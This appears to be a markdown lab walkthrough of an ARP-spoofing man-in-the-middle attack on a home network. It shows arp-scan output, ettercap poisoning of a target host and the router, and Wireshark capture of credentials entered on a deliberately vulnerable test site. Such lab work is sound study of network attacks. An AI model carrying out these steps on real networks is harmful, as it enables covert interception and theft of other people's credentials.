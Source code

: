 `ip r`  
```
default via 192.168.1.1 dev eth0 proto dhcp src 192.168.1.105 metric 100 
192.168.1.0/24 dev eth0 proto kernel scope link src 192.168.1.105 metric 100
```
Gateway (router) : 192.168.1.1  


`sudo arp-scan -I eth0 192.168.1.0/24`  
```
Interface: eth0, type: EN10MB, MAC: 08:00:27:50:4c:14, IPv4: 192.168.1.105
Starting arp-scan 1.9.7 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.1.1     f0:51:36:1f:17:96       TCT mobile ltd
192.168.1.102   28:f1:0e:21:14:8d       Dell Inc.
192.168.1.107   c4:85:08:d3:4a:00       Intel Corporate
```
Target: 192.168.1.107  

`sudo ettercap -G`  
open GUI ettercap  
 
Hosts - `scan for hosts` -> Hosts - `host list` -> Found hosts are only `192.168.1.1` and `192.168.1.100` (is [ettercap using other ARP scan techniques than arp-scan?](./arp-ettercap.md)) -> Targets - select targets - add `192.168.1.107   c4:85:08:d3:4a:00` as Target1 and  `192.168.1.1     f0:51:36:1f:17:96` as Target2 -> MITM -ARP spoof - `sniff remote connection` -> Plugins - manage plugins - `chk_poison`:  
```
Activating chk_poison plugin...
chk_poison: Checking poisoning status...
chk_poison: Poisoning process successful!
```

open and sniff `wireshark` on `eth0` ->  open [HTTP site](http://testphp.vulnweb.com/login.php) -> pass some credentials on that site -> find credentials in `wireshark` logs  

![arp-spoof](arp-spoof.png)

